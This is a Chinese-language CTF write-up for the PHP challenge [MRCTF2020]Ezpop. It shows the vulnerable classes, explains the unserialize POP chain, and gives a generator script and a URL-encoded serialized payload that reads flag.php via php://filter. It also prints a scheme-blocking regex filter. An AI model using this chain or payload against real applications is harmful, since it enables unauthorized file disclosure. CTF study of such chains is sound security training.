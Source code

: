 # \[MRCTF2020]Ezpop

## \[MRCTF2020]Ezpop

## 考点

* pop链构造
* 文件包含配合伪协议读取文件

## wp

```php
//flag.php
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}
```

魔术方法调用情况如下图

![](../../.gitbook/assets/serial\_2.png)

反序列化一般从`__destruct()`和`__wakeup()`入手，也可以从漏洞点倒推

本题在`Modifier::append()`处，可以配合伪协议读取flag.php，从该函数倒推，需要执行`Modifier::__invoke()`，继续倒推，在`Test::__get()`处可以把`Modifier`作为函数调用，在`Show::__toString()`处可以访问`Test`不存在的属性从而触发`Test::__get()`，最后问题就变成如何触发`Show::__toString()`

在`Show::__wakeup()`中有个preg\_match匹配，它会把`$this->source`作为字符串处理，这就可以触发`Show::__toString()`

```php
<?php
class Modifier {
    protected  $var;
    public function __construct($var){
        $this->var = $var;
    }
}
class Show{
    public $source;
    public $str;
}
class Test{
    public $p;
}
$x = new Modifier('php://filter/convert.base64-encode/resource=flag.php');
$a = new Test();
$a->p = $x;
$c = new Show();
$c->str = $a;
$b = new Show();
$b->source = $c;
echo urlencode(serialize($b));
```

payload

```
O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3BO%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3BN%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A52%3A%22php%3A%2F%2Ffilter%2Fconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7Ds%3A3%3A%22str%22%3BN%3B%7D
```
